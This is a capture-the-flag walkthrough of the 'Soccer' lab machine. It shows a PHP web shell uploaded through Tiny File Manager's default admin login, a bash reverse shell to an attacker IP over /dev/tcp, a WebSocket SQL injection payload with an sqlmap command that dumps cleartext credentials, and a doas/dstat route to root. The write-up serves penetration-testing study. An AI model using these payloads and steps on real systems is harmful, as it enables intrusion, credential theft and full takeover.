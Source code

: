 ```yaml
---
title: "Soccer"
date: 15-04-2025
categories: [Linux, Easy]
tags: [Easy, PHP, Web Shell,WebSockets, SQL Injection, Doas, SQLMap]
image: https://labs.hackthebox.com/storage/avatars/ca7f69a02eebf53deb3cd1611dd3f55e.png
---
```


Soccer is an easy Linux machine. It has three ports open one of which is a webpage that contain a `tiny file manager` instance running. Using default credentials we are able to access it and upload a `php` web shell which lets us get a reverse shell as a low privilege user. Using this user we can enumerate the machine and see that it has a hidden subdomain which contains a WebSocket that sends data containing ticket numbers. This is socket is vulnerable to an `sql` injection, using `sqlmap` we can dump the database contents which contains a cleartext password of the user on the home directory of the machine. After some enumeration we find that the binary `doas` has the `setuid` bit set which lets us run a binary as the root user. This binary lets us keep root privileges.

![soccer_info_card](/assets/images/soccer/Soccer.png)

## Enumeration

#### NMap
From the nmap scan we can observe that there are three ports open. SSH and an http port which leads to a webpage with a file manager application running. Port 9091 is not standard and going to it returns some errors, this will become useful later on.
![soccer](/assets/images/soccer/Pasted image 20250414083223.png)

#### Tiny file manager

Going over to the website running on port 80 gives us a soccer themed site. There is not much we can click on so I ran a `ffuf` scan to see what other directories there are on this page. I also ran some VHOST scanning but they did not return any subdomains.

```
ffuf -w /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt -u http://soccer.htb/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://soccer.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-medium-directories.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 6917, Words: 2196, Lines: 148, Duration: 16ms]
tiny                    [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 14ms]
:: Progress: [30000/30000] :: Job [1/1] :: 1886 req/sec :: Duration: [0:00:16] :: Errors: 2 ::
```

Gong over to `http://soccer.htb/tiny` and we can see a login page to access the tiny file manager. 
![soccer](/assets/images/soccer/Pasted image 20250414083800.png)

Since we have no credentials and we do not have any other way to get them I decide to look up for the default credentials to login into the application. A simple google search returns that these are `admin/admin@123; user/12345` . Using the first set of admin credentials works and we are now in the file manager.

![soccer](/assets/images/soccer/Pasted image 20250414084130.png)

#### PHP reverse shell

I looked around the application and found that there is a `php` file being hosted in the directory `tiny`.  This gave me an idea to upload my own `php` shell into the file manager and the site allows us to open the `php` files which execute the code. I created a simple file with the following contents:  `<?php system($_GET["cmd"]); ?>` after naming this file `shell.php` and navigating to `http://soccer.htb/tiny/uploads/shell.php` lets us use our web shell, we can now specify which commands to execute with `?cmd=`. 

![soccer](/assets/images/soccer/Pasted image 20250413201002.png)
Using the following payload I get a reverse shell back to my machine: `/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9001 0>&1'`


![soccer](/assets/images/soccer/Pasted image 20250413201225.png)

Since we get the shell as `www-data` we are not able to do much, we have no write permissions so we are not able to download external software to help us escalate our privileges. In this case I tried to look for interesting information on the server, like databases or configuration files. I was not able to find any. Looking at the running services and ports on the machine I see that there is a `mysql` instance running on port 3306 and the same port `9091` that we saw earlier.  In the home directory I see a user `player` but we cannot read any of his files.

![soccer](/assets/images/soccer/Pasted image 20250414085626.png)

Since this port seems to be running a hidden service I decide to investigate further and look at the `/etc/hosts` file of this server. I see a new subdomain `soc-player.soccer.htb`. After adding this to my own hosts file and going to `http://soc-player.soccer.htb/` we can see a new webpage that has more functionality that the other one. 

![soccer](/assets/images/soccer/Pasted image 20250413203107.png)

## Hidden Subdomain

The website has a login form to access a tickets page. I tried logging in with the same credentials as before but they did not work. Luckily the page lets us register a new user. After logging in we are presented with a page that lets us check if a given ticket exists. 

![soccer](/assets/images/soccer/Pasted image 20250414090500.png)

Looking at the source code of the website I see that its sending this data through a WebSocket over port 9091. This is quite weird but now we found the reason for that port being open. The client sends the following payload to the server:

```json
{
	"id":"74853"
}
```

## SQL Injection
The server then will respond with either `Ticket Exists` or `Ticket does not exist`.  The other parts of the webpage do not seem like it could lead us to a shell or sensitive information. Since this is the only part that lets us put user input and send it to the server the vulnerability has to be here. I spent a lot of time here and had to ask for a hint, I already had seen that there was a `mysql` database running on the machine. I was missing that there is an SQL injection in this WebSocket. 

```json
{
	"id":"74823 OR 1=1 -- -"
}
```

Sending this payload to the WebSocket returns `Ticket Exists` even though this ticket does not exist.  I first used a payload with a single quotes after the ticket number but it did not work, the SQL injection only works with the above payload. This injection is not very useful but it allows us to see that the server is vulnerable and we can run `SQLMap` to dump the database contents. 

Using the following command I am able to dump the database which contains the password for the user we saw previously on the box
`sqlmap -u ws://soc-player.soccer.htb:9091/ --data '{"id":"*"}' --risk 3 --level 5 --dbs --batch --dbms=mysql`

Without a higher level of risk or level `sqlmap` is not able to find the injection. We can specify that the database is `mysql` since we already saw it was running on port 3306. We get a database: `soccer_db` which contains a table with user information after dumping it we get the following data. 

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

## Privilege Escalation

Using the credentials `player:PlayerOftheMatch2022` I am able to ssh into the machine. After some enumeration I ran the command `find / -type f -perm -4000 2>/dev/null` which shows that we can run `doas` as root. After some research I find that we have to view its configuration file to find out which binary we can run as root. I used [this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/) article as a reference. 

```
find / -name doas.conf 2>/dev/null
/usr/local/etc/doas.conf
player@soccer:~/snap$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

From this we can see that we can run `dstat` as root. I checked [GTFO](https://gtfobins.github.io/gtfobins/dstat/) bins to see if this binary was exploitable and it was. Running the following command lets us keep root privileges. 

![soccer](/assets/images/soccer/Pasted image 20250414100216.png)